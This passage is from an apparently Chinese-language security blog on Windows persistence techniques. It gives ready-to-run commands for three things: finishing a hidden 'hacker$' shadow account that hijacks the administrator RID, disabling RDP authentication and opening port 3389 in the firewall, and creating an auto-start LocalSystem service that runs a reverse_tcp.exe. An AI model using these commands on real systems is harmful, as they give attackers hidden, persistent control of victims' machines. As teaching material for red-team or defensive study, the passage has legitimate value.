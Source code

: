 ​		![reg-F-tihuan](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Psexec-stream/reg-F-tihuan.png)

该过程其实是hacker$用户劫持了administrator用户的RID,达到完全控制的目的

+ 导出注册表

  将Name下的hacker$用户导出，并导出对应的二进制值表

+ 删除hacker$用户

  ```
  net user hacker$ /del
  ```

  此时在命令行和用户组中都看不到hacker$用户了

  ![looklook-user](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Psexec-stream/looklook-user.png)

​		双击导出的注册表，将值重新添加到表中

​		但是我们可以通过`net user hacker$`来查看hacker$用户的信息

![shadow-user](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/shadow-user.png)

至此影子用户创建完成

#### 利用

远程登录，此时登录会收到限制，需要在控制主机上手动添加允许连接(远程连接需要关闭鉴权和防火墙)

![remote-user-add](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/remote-user-add.png)

```shell
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0 #关闭鉴权
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow #配置防火墙允许连接
```

### 系统服务后门

#### 新建系统服务

将二进制文件路径设置为服务启动值，并将系统服务设置为自启动，当服务或系统重启时，服务会执行二进制文件

+ 执行以下命令，添加系统服务

  ```
  sc create Backdoor binpath= "cmd.exe /K c:\reverse_tcp.exe" start= "auto" obj= "LocalSystem"
  #start:设置启动模式为自动
  #obj : 指定启动类型，指启动服务的权限
  ```

+ 当系统重启或服务重启时就会执行指定的exe

(感觉和横向中利用系统服务进行横向是一个方法，只不过运用的场景不同，启动的权限和目的不同)

#### 利用现有的系统服务
